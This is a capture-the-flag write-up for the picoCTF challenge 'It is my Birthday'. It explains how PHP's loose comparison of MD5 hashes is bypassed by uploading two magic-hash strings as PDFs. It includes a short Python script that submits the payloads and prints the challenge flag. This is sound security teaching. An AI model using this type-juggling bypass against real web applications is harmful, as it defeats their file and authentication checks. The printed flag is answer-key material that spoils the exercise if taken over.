


## It is my Birthday



We are given a webpage that expects two PDF files that have different contents but the same MD5 hash. Essentially, we have to achieve a hash collision to reveal the flag.  


However, looking at the webpage source, we actually find that it uses `index.php` to evaluate the PDF files.  

This probably means that the webpage uses PHP's loose comparision to compare the two files, so we can abuse PHP type juggling to achieve the hash collision.  



We can submit two PDF files that contain the strings `240610708` and `QLTHNDT`. This works because the loose comparison coerces the MD5 hashes of both to `0`, thus, even though both strings are different, their MD5 hashes are evaluated as the same during the comaprison.  

```python
import requests
import re

url = "http://mercury.picoctf.net:50970"

res = requests.post(f'{url}/index.php', files={
    "file1": ('file1.pdf', b'240610708', 'application/pdf'),
    "file2": ('file2.pdf', b'QLTHNDT', 'application/pdf'),
    'submit': (None, 'Upload')
})

print(re.findall(r'(picoCTF\{.+?\})', res.text)[0])
```

Submitting our payloads will indeed result in a hash collision, revealing the flag.  

Flag: `picoCTF{c0ngr4ts_u_r_1nv1t3d_73b0c8ad}`